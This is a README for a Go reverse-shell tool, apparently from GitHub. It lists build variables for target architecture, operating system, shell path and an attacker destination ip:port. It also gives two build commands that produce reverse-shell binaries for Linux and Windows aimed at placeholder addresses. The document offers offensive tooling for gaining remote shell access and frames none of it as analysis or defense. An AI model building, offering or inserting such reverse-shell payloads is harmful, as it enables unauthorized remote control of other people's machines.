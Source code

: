 # go-reverse-shell

A simple reverse shell written in Go.
Credits to [moloch](https://gist.github.com/moloch--/86068b6019ff5e3280725230dcafa892).

## Usage

| Variable      | Value                                                                                                                                        |
|---------------|----------------------------------------------------------------------------------------------------------------------------------------------|
| `GOARCH`      | one of `386`, `amd64`, `arm`, `arm64`, `mips`, `mipsle`, `mips64`, `mips64le`, `ppc64`, `ppc64le`,`s390x`                                    |
| `GOOS`        | one of `aix`, `android`, `darwin`, `dragonfly`, `freebsd`, `illumos`, `js`, `linux`, `netbsd`, `openbsd`, `plan9`, `solaris`, `windows`      |
| `shell`       | file path, e.g. `/bin/sh`, `/bin/bash`, `C:\\Windows\\System32\\cmd.exe` or `C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe` |
| `destination` | any `ip:port` combination, e.g. `192.168.1.1:1337`                                                                                           |

~~~ sh
./build.sh GOARCH=arm GOOS=linux SHELL=/bin/sh DESTINATION=1.2.3.4:5678
./build.sh GOARCH=amd64 GOOS=windows SHELL=C:\\Windows\\System32\\cmd.exe DESTINATION=5.6.7.8:4321
~~~
